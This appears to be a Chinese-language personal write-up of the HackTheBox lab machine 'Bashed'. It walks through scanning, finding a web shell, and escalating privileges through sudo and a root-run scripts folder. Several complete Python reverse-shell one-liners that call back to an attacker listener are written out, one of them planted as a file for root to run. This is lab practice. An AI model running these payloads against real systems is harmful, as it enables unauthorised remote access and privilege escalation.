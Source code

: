 ```yaml
---
title: bashed(命令执行+权限错误)
categories:
- training
tags: 
    - training
---
```


![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/%E6%8D%95%E8%8E%B7.PNG)

**端口探测：** 

**80/tcp open** http Apache httpd 2.4.18 ((Ubuntu))

100/tcp  filtered newacct

1500/tcp filtered vlsi-lm
...

**web目录探测：**
图片一：
/config.php: PHP Config file may contain database IDs and passwords.

+ OSVDB-3268: /dev/: Directory indexing found.

+ OSVDB-3092: /dev/: This might be interesting...

+ OSVDB-3268: /php/: Directory indexing found.

+ OSVDB-3092: /php/: This might be interesting...
...

在“dev/”目录下找到php文件

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/2883590-009c05f24f81a9e9.png)

尝试bash -i 反弹shell，失败，bash版本不适合。尝试nc -e反弹shell，nc版本不支持-e参数。
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/1.PNG)

用python成功反弹了一个shell（shell 1）给kali。

**kali上监听**：`nc -lnvp 1234`
**网页上运行python命令：**
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.137",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
**信息搜集：**

> 普通用户
> arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
> scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
> 内核版本：
> Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
> 系统版本：Ubuntu 16.04.2 LTS \n \l

[尝试内核漏洞提权：](https://www.exploit-db.com/exploits/43418/)

有内核漏洞，但gcc没有安装。

## **该怎么提权呢？**

现在用户是www-data

尝试cd /home/arrexel，看到了user.txt，获取到flag。。

我还以为会有forbidden权限不够的情况。。。怎么回事，权限没划分好么？

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/2883590-b737e461e624b35f.png)
可以看到有三列，都是r——read，分别对应”文件所有者、组群、非组群“，因为非组群的权限是read，所以可读。然后再尝试下rm删除，果然”rm: cannot remove 'a': Permission denied“

**/home/scriptmanager目录下，有个脚本，说是检查linux提权的。运行后指出了一些可以运行的exp来提权**

但是没有gcc，有exp也没用啊！

[writeup](http://sicurolab.com/walkthroughs/hackthebox-bashed/)

## sudo -u username的用法
-u username不加此参数，代表要以**root** 的身份执行指令，而加了此参数，可以以 username 的身份执行指令（#uid 为该 username 的使用者号码）

**用shell 1运行如下命令，得到shell 2**

```
sudo -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.109",1235));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/2.PNG)
用sudo反弹了一个scriptmanager用户的shell。
在/scripts目录下，发现了它有root权限，于是我们在该目录下建立一个py脚本。
`nc -lvnp 1236`
`touch pri.py`

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.137",1236));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > pri.py
```
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/3.PNG)

总结：
这个实验用了很多次python反弹shell。
用sudo -u username可以用其他用户来运行命令。
本次利用的scripts文件夹会自动运行常用的脚本，从而运行我们加入的反弹shell的py脚本。

![学习下sudoers文件](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/4.PNG)

注意：用户权限设置的注释下面，有一行`NOPASSWD： ALL` 说明用户使用`sudo`命令时，无需输入密码。


